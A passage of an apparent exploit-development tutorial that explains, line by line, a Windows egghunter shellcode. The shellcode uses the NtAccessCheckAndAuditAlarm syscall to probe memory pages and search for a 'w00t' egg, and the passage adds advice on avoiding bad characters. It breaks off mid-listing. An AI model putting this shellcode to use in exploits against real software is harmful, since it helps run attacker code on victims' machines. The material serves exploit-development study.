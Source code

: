 ```python
```

Let's analyze what does this egghunter code do part by part.
```c
" loop_inc_page: "  
 # Go to the last address in the memory page  
" or dx, 0x0fff ;"  
" loop_inc_one: "  
 # Increase the memory counter by one  
" inc edx ;"  
```
The egghunter starts with `loop_inc_page`, performing an or operation on the DX register with 0x0FFF. This will make EDX point to the last possible address of a memory page. Note that we could set EDX to 0xFFFFF000, but the operations will have badchars (e.g., 00) and our shellcode must not have badchars, always remember that.
The `loop_inc_one` operation sets EDX to a new memory page by incrementing it 1 more. We can see that EDX points to the memory pages.
```c
" loop_check: "  
 # Save the edx register which holds our memory  
 # address on the stack
 " push edx ;"  
 # Push the system call number  
" push 0x2 ;"  
 # Initialize the call to NtAccessCheckAndAuditAlarm  
" pop eax ;"  
 # Perform the system call  
" int 0x2e ;"  
 # Check for access violation, 0xc0000005  
 # (ACCESS_VIOLATION)
 " cmp al,05 ;"  
 # Restore the edx register to check later  
 # for our egg
 " pop edx ;"  
" loop_check_valid: "  
 # If access violation encountered, go to next page
 " je loop_inc_page ;"  
```
This is the check that is being performed over such memory page. It is pushing the value of EDX (memory region) in the stack, to store it for later (we don't know if EDX will be overwritten), then putting the number 0x2 in eax, which is the system call number for NtAccessCheckAndAuditAlarm, performing the syscall via a interruption (0x2e) (Microsoft designed the operating system to treat this exception as a system call) and comparing if the returned value from EAX is 0xc000005. It only compares the lowest part of the register to 0x05, which is the same but the instruction is shorter.
Lastly, we restore the value of EDX as it was in the stack to keep track of the next memory region to analyze and we jump to increment the page in the case that an exception has been found (the CMP operation modifies the status of the ZF register).
If the memory page is mapped and we have access, we won't jump, but we will continue to the following code:
```c
" is_egg: "  
 # Load egg (w00t in this example) into  
 # the eax register
 " mov eax, 0x74303077 ;"  
 # Initializes pointer with current checked  
 # address
 " mov edi, edx ;"  
 # Compare eax with doubleword at edi and  
 # set status flags
 " scasd ;"  
 # No match, we will increase our memory  
 # counter by one
 " jnz loop_inc_one ;"  
 # First part of the egg detected, check for  
```